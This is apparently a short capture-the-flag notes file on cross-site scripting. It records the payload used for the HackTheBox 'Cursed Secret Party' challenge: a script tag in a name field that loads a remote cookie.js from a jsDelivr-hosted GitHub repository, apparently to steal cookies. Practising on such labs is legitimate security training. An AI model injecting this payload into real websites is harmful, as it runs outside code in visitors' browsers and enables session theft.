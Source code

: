 # xss

Challs:

- Cursed Secret Party (hackthebox, hacktheboo 2022)
  - name field: `<script src="https://cdn.jsdelivr.net/gh/obradovicnikola/xss/cookie.js"></script>`
